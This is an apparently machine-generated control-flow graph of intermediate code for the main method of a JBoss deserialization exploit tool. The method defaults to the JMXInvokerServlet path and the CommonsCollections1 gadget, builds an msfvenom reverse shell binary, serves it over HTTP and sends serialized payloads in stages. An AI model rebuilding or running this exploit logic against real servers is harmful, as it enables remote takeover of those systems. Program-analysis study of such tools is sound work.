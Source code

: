 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 2 ]
r1 := @parameter0: java.lang.String[];
r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>();
r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1);
r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\");
$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\");
i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4);
r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\");
$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\");
i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6);
$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\");
i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7);
r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\");
if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
"
    "Block 1:
[preds: 0 ] [succs: 2 ]
r21 = \"/invoker/JMXInvokerServlet\";
"
    "Block 2:
[preds: 0 1 ] [succs: 3 4 ]
r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 3:
[preds: 2 ] [succs: 4 ]
r22 = \"CommonsCollections1\";
"
    "Block 4:
[preds: 2 3 ] [succs: 5 ]
$r9 = <java.lang.System: java.io.PrintStream out>;
$r8 = new java.lang.StringBuilder;
specialinvoke $r8.<java.lang.StringBuilder: void <init>()>();
$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\");
$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0);
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\");
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13);
staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0);
$r14 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\");
staticinvoke <jbossexploit.Main: void hostFile(int)>(i2);
$r15 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\");
i3 = 0;
"
    "Block 5:
[preds: 4 6 ] [succs: 6 7 ]
if i3 >= 3 goto return;
"
    "Block 6:
[preds: 5 ] [succs: 5 ]
$r17 = <java.lang.System: java.io.PrintStream out>;
$r16 = new java.lang.StringBuilder;
specialinvoke $r16.<java.lang.StringBuilder: void <init>()>();
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \");
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3);
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20);
staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22);
i3 = i3 + 1;
goto [?= (branch)];
"
    "Block 7:
[preds: 5 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 2 ]
r1 := @parameter0: java.lang.String[];
r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>();
r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1);
r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\");
$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\");
i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4);
r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\");
$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\");
i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6);
$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\");
i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7);
r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\");
if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
"->"Block 1:
[preds: 0 ] [succs: 2 ]
r21 = \"/invoker/JMXInvokerServlet\";
";
    "Block 0:
[preds: ] [succs: 1 2 ]
r1 := @parameter0: java.lang.String[];
r0 = staticinvoke <jbossexploit.Msfvenom: java.lang.String generateBinaryName()>();
r2 = staticinvoke <jbossexploit.Cli: org.apache.commons.cli.CommandLine parseArguments(java.lang.String[])>(r1);
r3 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rhost\");
$r4 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"rport\");
i0 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r4);
r5 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lhost\");
$r6 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"lport\");
i1 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r6);
$r7 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"srvport\");
i2 = staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>($r7);
r21 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"uripath\");
if r21 != null goto r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
"->"Block 2:
[preds: 0 1 ] [succs: 3 4 ]
r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 1:
[preds: 0 ] [succs: 2 ]
r21 = \"/invoker/JMXInvokerServlet\";
"->"Block 2:
[preds: 0 1 ] [succs: 3 4 ]
r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 2:
[preds: 0 1 ] [succs: 3 4 ]
r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>;
"->"Block 3:
[preds: 2 ] [succs: 4 ]
r22 = \"CommonsCollections1\";
";
    "Block 2:
[preds: 0 1 ] [succs: 3 4 ]
r22 = virtualinvoke r2.<org.apache.commons.cli.CommandLine: java.lang.String getOptionValue(java.lang.String)>(\"payload\");
if r22 != null goto $r9 = <java.lang.System: java.io.PrintStream out>;
"->"Block 4:
[preds: 2 3 ] [succs: 5 ]
$r9 = <java.lang.System: java.io.PrintStream out>;
$r8 = new java.lang.StringBuilder;
specialinvoke $r8.<java.lang.StringBuilder: void <init>()>();
$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\");
$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0);
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\");
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13);
staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0);
$r14 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\");
staticinvoke <jbossexploit.Main: void hostFile(int)>(i2);
$r15 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\");
i3 = 0;
";
    "Block 3:
[preds: 2 ] [succs: 4 ]
r22 = \"CommonsCollections1\";
"->"Block 4:
[preds: 2 3 ] [succs: 5 ]
$r9 = <java.lang.System: java.io.PrintStream out>;
$r8 = new java.lang.StringBuilder;
specialinvoke $r8.<java.lang.StringBuilder: void <init>()>();
$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\");
$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0);
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\");
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13);
staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0);
$r14 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\");
staticinvoke <jbossexploit.Main: void hostFile(int)>(i2);
$r15 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\");
i3 = 0;
";
    "Block 4:
[preds: 2 3 ] [succs: 5 ]
$r9 = <java.lang.System: java.io.PrintStream out>;
$r8 = new java.lang.StringBuilder;
specialinvoke $r8.<java.lang.StringBuilder: void <init>()>();
$r10 = virtualinvoke $r8.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Generating reverse shell binary with msfvenom at /tmp/\");
$r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r0);
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"...\");
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>($r13);
staticinvoke <jbossexploit.Msfvenom: boolean generateBinary(java.lang.String,int,java.lang.String)>(r5, i1, r0);
$r14 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r14.<java.io.PrintStream: void println(java.lang.String)>(\"Starting HTTP Server...\");
staticinvoke <jbossexploit.Main: void hostFile(int)>(i2);
$r15 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r15.<java.io.PrintStream: void println(java.lang.String)>(\"Sending serialized commands...\");
i3 = 0;
"->"Block 5:
[preds: 4 6 ] [succs: 6 7 ]
if i3 >= 3 goto return;
";
    "Block 5:
[preds: 4 6 ] [succs: 6 7 ]
if i3 >= 3 goto return;
"->"Block 6:
[preds: 5 ] [succs: 5 ]
$r17 = <java.lang.System: java.io.PrintStream out>;
$r16 = new java.lang.StringBuilder;
specialinvoke $r16.<java.lang.StringBuilder: void <init>()>();
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \");
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3);
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20);
staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22);
i3 = i3 + 1;
goto [?= (branch)];
";
    "Block 5:
[preds: 4 6 ] [succs: 6 7 ]
if i3 >= 3 goto return;
"->"Block 7:
[preds: 5 ] [succs: ]
return;
";
    "Block 6:
[preds: 5 ] [succs: 5 ]
$r17 = <java.lang.System: java.io.PrintStream out>;
$r16 = new java.lang.StringBuilder;
specialinvoke $r16.<java.lang.StringBuilder: void <init>()>();
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"Sending stage \");
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(int)>(i3);
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r20);
staticinvoke <jbossexploit.Stager: void sendPayload(int,java.lang.String,int,java.lang.String,int,java.lang.String,java.lang.String,java.lang.String)>(i3, r3, i0, r5, i2, r0, r21, r22);
i3 = i3 + 1;
goto [?= (branch)];
"->"Block 5:
[preds: 4 6 ] [succs: 6 7 ]
if i3 >= 3 goto return;
";
}
